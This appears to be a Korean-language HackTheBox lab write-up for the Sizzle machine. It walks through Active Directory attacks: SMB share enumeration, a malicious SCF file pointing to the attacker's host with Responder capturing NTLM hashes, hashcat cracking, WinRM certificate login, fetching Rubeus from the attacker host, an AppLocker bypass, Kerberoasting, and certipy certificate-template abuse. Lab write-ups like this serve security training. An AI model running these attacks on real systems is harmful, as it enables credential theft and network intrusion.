 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### Web Enum
```bash
gobuster dir -u 10.129.89.62 -w /usr/share/wordlists/dirb/common.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/0890786f6c0ab662374a5b273a0b20d6_MD5.jpeg)
### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

# smb folder mount
sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

sudo responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```

```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.92\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)
### Password Crack
```bash
hashcat -h | grep NTLM
hashcat -m 5600 amanda.hash /usr/share/wordlists/rockyou.txt
```
![](/assets/images/posts/2025-03-08-Sizzle/bb07d49603b833a15eba2b10bf594f06_MD5.jpeg)

### Evil-WinRM [Key Auth]
WinRM은 기본적으로 ID/PW 기반의 기본 인증을 통해 인증하지만, 인증서 기반 인증을 통해 인증할 수도 있다.
```bash
# openssl 통한 CSR 파일 생성
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr

# 그 후 http://10.129.89.62/certsrv/ : amanda : Ashare1972 를 통해 request.csr 업로드 후 cer 다운로드 [사진 참조]
cat request.csr

# 받은 cer로 인증 시도
evil-winrm -S -i 10.129.112.117 -u amanda -p Ashare1972 -c certnew.cer -k private.key
```

![](/assets/images/posts/2025-03-08-Sizzle/3d8b59e04c54f7fa179ee9814a386110_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/d224011add69d27ae61ee3aee5c2a1fc_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/144b5f744e59341ac128e8268ccc74c2_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/8cf46c442ad95dcf7d1e8cd5cd957537_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/02687eaeda255f9a483846f37269bd4d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/4826fff15c51a7fcbd0059136518aa59_MD5.jpeg)
#### WinRM Shell [번외]
```bash
gem install winrm

# winrm_shell.rb 생성
require 'winrm'  
  
#Append necessary changes in winrm_shell.rb  
conn = WinRM::Connection.new(  
endpoint: 'https://10.10.10.103:5986/wsman' ,  
transport: :ssl,  
:client_cert => 'certnew.cer' , # from the server  
:client_key => 'private.key' , # private key  
:no_ssl_peer_verification => true)  
  
command=""  
  
conn.shell(:powershell) do |shell|  
	until command == "exit\n" do  
		output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")  
	print(output.output.chomp)  
		command = gets  
		output = shell.run(command) do |stdout, stderr|  
			STDOUT.print stdout  
			STDERR.print stderr  
		end  
	end  
	puts "Exiting with code #{output.exitcode}"  
end

# 실행
ruby winrm_shell.rb
```
### AppLocker Bypass
.exe, .ps1 등 실행이 안된다면 AppLocker 우회 방법을 통해 우회 시도

```powershell
# 내부적으로 88 port가 열려있음을 알 수 있음 -> 커버로스 관련 공격 가능
netstat -ap tcp

# blocked
iwr -uri http://10.10.14.92:8000/Rebeus.exe -OutFile Rebeus.exe
.\Rebeus.exe

# bypass
# https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
Move-Item -Path C:\Users\amanda\Desktop\Rubeus.exe -Destination C:\Windows\Temp\Rubeus.exe
cd C:\Windows\Temp
.\Rubeus.exe
```

![](assets/images/posts/2025-03-08-Sizzle/33c7c6b55545b8aaef121dcbd2651785_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/d49bb89ba91bb4d4ce46302d97521c9e_MD5.jpeg)
### Rubeus.exe
```powershell
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

## 실패 모음
### AD CS [Active Directory Certificate Services]
88 Port [커버로스] 닫혀있어서 실패...
```bash
# http://10.129.89.62/certsrv/ : amanda : Ashare1972
certipy find -u amanda -p Ashare1972 -dc-ip 10.129.112.117 -vulnerable

# ESC4 Exploit : ECS4는 취약한 템플릿을 만들 수 있는 취약점
certipy template -dc-ip 10.129.112.117 -u amanda -p 'Ashare1972' -template SSL -target sizzle.htb.local -save-old

certipy req -ca 'HTB-SIZZLE-CA' -dc-ip 10.129.112.117 -u 'amanda' -p 'Ashare1972' -template SSL -target 'sizzle.htb.local' -upn 'Authenticated Users@htb.local'

# 그 후 다시 vuln 조사하면 ESC1이 취약함으로 변경 됨.
# ESC1 Exploit : 
certipy req -u amanda -p 'Ashare1972' -ca 'HTB-SIZZLE-CA' -template SSL -dc-ip 10.129.112.117 -upn 'Administrator@htb.local'

# in Linux
certpy auth -pfx administrators.pfx -dc-ip 10.129.112.117
```
![](/assets/images/posts/2025-03-08-Sizzle/0b7776e5bf429f95044c8fb4e5e9c1f3_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/90fd5a11b99e4b8479c6619b5c6b0f68_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/f87d0086ead259e73afd7b15405c377c_MD5.jpeg)

![](/assets/images/posts/2025-03-08-Sizzle/74208aab76029e691df0a9d30c327b77_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/58218e4bf47327c33fc31589180b1f64_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/06a2d4d6f3b323ac6a2224ff2203209d_MD5.jpeg)
![](/assets/images/posts/2025-03-08-Sizzle/50f1e956227263d7c075ce19186f646b_MD5.jpeg)
### ING
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

ESC1, ESC2 취약함
"SUBCA@HTB.LOCAL"
Template Name : SubCA
```

```
Credential

amanda : Ashare1972
```